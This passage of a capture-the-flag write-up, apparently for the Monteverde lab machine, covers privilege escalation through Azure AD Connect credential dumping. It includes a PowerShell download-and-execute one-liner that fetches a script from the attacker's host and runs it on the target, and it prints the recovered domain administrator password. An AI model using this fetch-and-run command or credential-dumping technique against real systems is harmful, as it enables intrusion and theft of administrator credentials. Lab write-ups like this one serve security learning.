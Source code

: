 
### Privilege Escalation 

- From enumeration we notice that the user mhope is a member of the Remote Management Group, and Azure Admins group. Since he is a member of the member of the Azure Admins group. [There is an amazing privilege escalation technique explained in this github repo that will allow him to run a powershell script and dump the credentials of the administrator account](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1). 

- I created the script and ran the following command to retrieve it from my attack box and run it on the target and got the admin credentials.


iex(new-object net.webclient).downloadstring('http://10.10.14.240/azuread_decrypt_msol.ps1')

- Running the script gives me Administrator password

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!


![AD Enumeration](/Monteverde/images/admin.png) 


- Admin Creds

- Username: administrator
- Password: d0m@in4dminyeah!


![Priv Esc](/Monteverde/images/root.png) 

- Confirming through crackmapexec we can root the box with either psexec or evil-winrm. I'm going to try and just do it through psexec since I haven't used it yet.

